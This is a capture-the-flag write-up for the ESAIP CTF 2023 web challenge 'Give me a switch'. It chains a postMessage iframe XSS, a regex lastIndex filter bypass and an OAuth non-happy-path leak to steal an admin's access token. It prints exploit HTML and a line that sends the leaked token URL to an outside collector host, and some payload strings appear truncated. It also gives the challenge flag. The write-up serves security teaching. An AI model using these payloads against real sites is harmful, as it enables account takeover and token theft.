


# Give me a switch !

# Description

Luigi finally gathers enough money to buy a switch, but the marketplace blocks him... Help him!

Author: Mizu

# Sources

https://github.com/ESAIP-CTF/public-esaip-ctf-2023/tree/master/challenges/web/give_me_a_switch

# Solution

In this challenge, we're given the application's source code, and we can see that it's rather short. What we can clearly identify is that we'll need to find a vulnerability in the application's oauth implementation to take control of the administrator's account and retrieve our flag. In fact, to have the flag, we have to had the correct access_token, and the correct email :

```js

const access_token = req.session.access_token;
if (access_token) {
    axios.get(`https://www.googleapis.com/oauth2/v2/userinfo?fields=email&access_token=${access_token}`).then(response => {
        const email = response.data.email;
        if (email === process.env.EMAIL) {
            res.send(allowed);
        } else {
            res.status(403);
            res.send(not_allowed);
        }
    })
}
```

This challenge is separated in two domains :
- Main domain : https://app-give-me-a-switch.esaip-cyber.com
- Chat domain : https://chat-give-me-a-switch.esaip-cyber.com

On the main app, there isn't any relevant things, except the route /buy which will gave us our flag. If we look at the sources, we can see that a chatbot have been implemented on the application, if we look closer to the frontend code, we can see that it's working with iframe postmessage :

```js
//javascript in https://chat-give-me-a-switch.esaip-cyber.com domain
window.onload = () => {
    var bot = new ChatBot();

    onmessage = e => {
        if (!(e.source === parent)) { return }

        if (e.data.action === "init") {
            bot.init(e.data.caller);

        } else if (e.data.action === "ask") {
            var d = new Date();
            d = d.getHours() + ':' + d.getMinutes();

            user_msg(e.data.question, d);
            bot_msg(bot.ask(e.data.question), d);
            scrollTo(0, document.body.scrollHeight);
        }
    }
}
```

If we look at the javascript of the main domain, we can see that a iframe is created, and it's sending post message to her :

```html
[...]
<button onclick="bot.contentWindow.postMessage({'action': 'ask', 'question': this.innerText}, '*');">What is the status of my order?</button>
[...]
```

Here the is a problem, in fact, in the chat domain server code, there isn't any restriction to iframe this domain, so we can iframe it from our domain (for example vitemaweed.fr), and send post message to it !

Now, you can think "yeah you can iframe a website incredible what's the matter here ?", the problem is in the code that handle and happened the message send through post message :

```js
const regex = /<|>/g;
var user_msg = (msg, date) => {
    const user_template = `
    <div class="d-flex flex-row justify-content-end mb-4 pt-1">
        <div>
            <p class="small p-2 me-3 mb-1 text-white rounded-3" style="background-color: #FF393A;">{{message}}</p>
            <p class="small me-3 mb-3 rounded-3 text-muted d-flex justify-content-end">{{date}}</p>
        </div>
        
    </div>`;

    let content;
    var output  = document.createElement("div");
    if (regex.test(msg)) {
        content = user_template
            .replace("{{message}}", "Attack detected!")
            .replace("{{date}}", date);
    } else {
        content = user_template
            .replace("{{message}}", msg)
            .replace("{{date}}", date);
    }
    output.innerHTML = content;
    chat.appendChild(output);
}
```

We can see that if we match the regex, the message send will be happened with `innerHTML`, which can leads to XSS. But how can we bypass this regex ?

In the `test` function, there is a bug. When you're using the `/g` flag in a regex, which means "global", the `regex.text` function will keep an internal index of the last match, and if you recall it in the same context, this internal index will reference the last match, and it will not start from the beginning of the new string, but from the last index, see [here](https://stackoverflow.com/questions/43827851/bug-with-regexp-test-javascript).

Here we are not in a loop, but the post message are received in the same context, so we have to send a lot of "a" in the first post message, followed by a "<" to trigger the regex, so the internal index will be huge, and we can put our xss in the second post message.

I've created this little HTML to do so :

```html
<!DOCTYPE HTML>
<head>
</head>
<body>
<p id="leak"></p>
<iframe id="iframe" src="http://chat-give-me-a-switch.esaip-cyber.com:3001/bot"></iframe>
<script>
setTimeout(function(){
document.getElementById("iframe").contentWindow.postMessage({"action":"init","caller":"worty"},"*");
document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*");
document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`
</body>
</html>
```

And we get :



So here we have an xss in an iframe domain that can communicate with the main domain, what can we do ? While looking for an exploit, I found this very interesting article from [@fransrosen](https://twitter.com/fransrosen), which talk about [account hijacking using dirty dancing in oauth flows](https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/), particulary "Non-happy paths in the OAuth-dance". 

So to exploit this, we have to force the administrator to sign in in the oauth flow, but with a wrong state. What happened in this case ? The application didn't handle this case, and all oauth parameters will be reflected in the url fragment, which can be recovered in javascript. (if we are on the same domain). The problem here is that the xss is on the chat domain, not on the main domain that handle the oauth flow. 

But if we came back at the frontend source of the main app, we can see this in the "main.js" file :

```js
window.onload = () => {
    scroll = () => {};
    setTimeout(() => { bot.contentWindow.postMessage({"action": "init", "caller": document.location.href}, '*') }, 500);
}
```

The main domain is sending through a post message the current location of the window, and that can be recovered from our iframe !

So we have all our gadgets, here is the plan :

- Trigger the XSS on the chat domain to force the oauth to be triggered with a wrong state to trigger a non-happy path :

```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?response_type=token&redirect_uri=https%3A%2F%2Fapp-give-me-a-switch.esaip-cyber.com%2Fauth%2Fcallback&scope=email&client_id=374058566213-j138s6n7s5dmpqqj36nqj1c2kk62eivo.apps.googleusercontent.com&state=aa20df0b6bc39be1ae8d24d8f56e954e3e271e76b9e85879c687653e205788f649aa&service=lso&o2v=2&flowName=GeneralOAuthFlow

- response_type : token => here we want the token of the victim to be able to pass it through the /auth/callback endpoint of the application
- client_id : We recover it from a normal authentication with the app
- state : An invalid state to trigger the non-happy path
```

- Execute some javascript on the chat domain iframe to listen for event on the current window to recover the post message from the main application that send the current location :

```js
x = setInterval(function() { if(b && b.frames[0]) { b.frames[0].eval('window.addEventListener("message",function(e){var a= e.data.caller;fetch("https://ensvuwgi6wpdc.x.pipedream.net/?data="+encodeURIComponent(a));})')}});
```

Here is the final HTML payload that have to be stored on the attacker server :

```html
<!DOCTYPE HTML>
<head>
</head>
<body>
<p id="leak"></p>
<iframe id="iframe" src="https://chat-give-me-a-switch.esaip-cyber.com/bot"></iframe>
<script>
setTimeout(function(){
document.getElementById("iframe").contentWindow.postMessage({"action":"init","caller":"worty"},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":``},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*")

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":``},"*")
},2000);

</script>
</body>
```

We now send this to the administrator, we recover is token inside the leaked URL, and we can authenticate with it's account through /auth/callback !



Thanks a lot to [@kevin_mizu](https://twitter.com/kevin_mizu) for this challenge !

# Flag

ECTF{0auTh+hR3f_P0S1_M3sS4g3_L34k_T0_TH3_m00N}
